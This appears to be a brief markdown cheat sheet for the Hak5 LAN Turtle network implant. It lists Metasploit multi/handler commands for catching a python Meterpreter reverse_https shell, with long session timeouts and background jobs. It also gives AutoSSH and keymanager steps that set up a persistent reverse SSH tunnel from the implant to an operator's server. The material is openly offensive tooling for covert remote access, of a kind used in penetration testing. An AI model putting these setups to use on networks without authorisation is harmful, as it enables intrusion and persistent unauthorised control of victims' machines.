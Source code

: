 Manual updates
https://forums.hak5.org/topic/36363-guide-manually-updating-the-lan-turtle/


Network config: 

    /etc/config/network
    
   route add default gw X.X.X.X


Module locations:

    /etc/turtle/modules

 to start a module from here: ./<module> start
 
 
 
## Modules


### Meterpreter reverse shell

Setting up listener
 
    msfconsole

    use exploit/multi/handler

    set PAYLOAD python/meterpreter/reverse_https

    set LPORT/LHOST
    set SessionExpirationTimeout 604800
    set ExitOnSession false
    exploit -j

 Set up LAN Turtle

 Configure meterpreter-http with the correct IP and Port.
 
### AutoSSH
  
  Modules: autossh and keymanager
  
  Require VM with SSH server. 
  
    
  On the server create user to run the connection
  
       adduser turtle
       
       sudo apt-get install openssh-server
       
       sudo ufw allow ssh
       sudo ufw enable
  
   On the turtle ise keymanager to generate keys and send the key to the server. (will be under /root/.ssh)
   
    Host: IP of SSH server
    Port: Listening port of SSH server
    User: user that was just created on server
    
    
   Set up autossh with the settings of the server.
   
   On the server connect to the LAN Turtle
   
    ssh root@localhost -p 2222
  
  
  
  
  
  
  
  
  
  
 
